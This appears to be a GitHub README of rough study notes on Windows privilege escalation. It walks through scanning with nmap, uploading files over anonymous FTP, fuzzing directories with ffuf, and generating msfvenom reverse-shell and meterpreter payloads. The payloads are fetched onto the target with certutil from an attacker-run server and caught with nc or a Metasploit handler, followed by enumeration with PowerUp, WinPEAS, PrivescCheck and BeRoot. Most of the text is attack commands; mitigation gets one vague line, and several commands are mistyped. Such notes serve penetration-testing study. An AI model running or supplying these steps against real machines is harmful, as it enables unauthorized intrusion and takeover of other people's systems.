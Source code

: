 # winescalation
Windows Privilege Escalation


Intro:
A cyberattack technique for Gaining unauthorized access to your windows and gaining more control or higher privileges than what is typically allowed. It is possible due to weakness or vulnerability in the system.


Example - Login to website with someone's account


AIM:
->Gain administrative control
->Access restricted resources
->Maintain persistence
->Expand lateral movement
->Evade detection and security measures


2 types:


1.Horizontal priv escalation - When 1st users got access to other account via any username or password or via any other method and login or work as 2nd user.


2.Vertical priv escalation - When user able to perform any activity on behalf of administrator.

I) Gaining Initial Access 


->It basically requires some type of privilages in your hand.


->Once we have initial access we can then perform enumeration to identify vulnerabilities that can allow us to do privilage escalation.


nmap -p- -A ipofdevice -oN nmap.txt --min-rate 10000


If FTP anonumous service is allowed
If no file found or not found anything , try to put some file from your system
put nmap.txt

Now if found port 80 
just type ip on the browser 
use ffuf => ffuf -u http://ip/FUZZ/nmap.txt -w /usr/share/seclists/Discovery/web-content/reft-small-directoriex.txt -t 100

Now try uploading payload created by msfvenom

msfvenom -l formats , 
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=yourip lport=80,443,53,445(prefer or 80) -f aspx -o robensive.aspx , 


or (2nd method) , 
msfvenom -p windows/x64/shell_reverse_tcp lhost= lport=8989,7777 -f exe -o test.exe 


now upload robensive.aspx or test.exe ,
For uploading (for 2nd method),
python3 -m http-server 8000(for running a server from the linux terminal),
certutil -urlcache -f -split http:://lhost:8000/test.exe test.exe(On target windows command prompt),
nc -lnvp 8989 (on termainal),
test.exe


run metasploit listener(for 1st method)


msfdb run ,
uer exploit/multi/handler ,
set payload windows/x64/meterpreter/reverse_tcp ,
set lhost=yourip , 
set lport=445(as used before),
run

Now access robensive.aspx via browser and get meterpreter
##Completer Initiall Access##

getuid 
getprivs
sc qc unquotedsvc => cd BINARY_PATH_NAME"
cmdkey /list


Enumeration for privsec
->some known scripts:
PowerUp
WinPEAS
PrivescCheck
BeRoot
PayloadAllThings
->Now we can try poetential ways to privilage escalation over the system to be a administrative user
->Many automation scripts

Practical part
shell
net localgroup administrators -> got  all users
net user "username"
exit

1.Powerup (google it)
wget from github
load
load powershell
help
powershell_import PowerUp.ps1
powershell_execurte Invoke_powerup(can cause problem to use  for powerups

2.Privescheck(google it)
powershell_import PrivescCheck.ps1
powershell_execurte Invoke_PrivescCheck

3.WinPeas(install from github)
upload winpeasx64.exe(on meterpreter)
shell
winpeasx64.exe


4.Beroot(install from github )
upload beRoot.exe
shell 
beroot.exe

#Priviege Escalataion
->Based on enumeration we will exploit the machine.

Mitigation:
Based on vulnearabilities , different mitigation should be applied
